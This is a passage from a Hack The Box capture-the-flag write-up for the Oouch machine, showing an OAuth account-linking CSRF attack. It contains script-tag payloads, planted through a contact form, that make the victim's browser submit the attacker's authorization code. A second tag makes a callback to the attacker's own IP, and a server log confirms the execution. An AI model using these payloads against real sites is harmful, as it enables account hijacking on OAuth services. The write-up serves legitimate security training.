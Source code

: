 We can simply forward this request without any manipulation.

The second request is a GET request to `/oauth/connect/token` with our authorization code.

![Request with authorization code](/assets/htb/Oouch/oauth-ex-req2.png)

Now we have to copy this code and **drop** the request (authorization code is valid only once).

Now we can send the CSRF payload in the contact form and wait for the payload to be executed (should take about 50 seconds).

```js
<SCRIPT src="http://consumer.oouch.htb:5000/oauth/connect/token?code=2ffGaJdBBWW4aEJE10ddBOvk0ktRej"></SCRIPT>
```

In order to check if the exploit was executed, we can send a second payload that simply connects to our server. Once we get a callback, we know that our previous payload was also executed.

```js
<SCRIPT src="http://10.10.14.29/DONE"></SCRIPT>
```

```bash
root@darkness:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.177 - - [15/Jul/2020 13:34:59] code 404, message File not found
10.10.10.177 - - [15/Jul/2020 13:34:59] "GET /DONE HTTP/1.1" 404 -
```

Now that we have verified that our payload was executed (and our account was connected), let us login using the second link on the /oauth endpoint.

![OAuth Login after account was connected](/assets/htb/Oouch/oauth-ex-login.png)

Let us now login by going to http://consumer.oouch.htb:5000/oauth/login. We are again prompted for authorization.

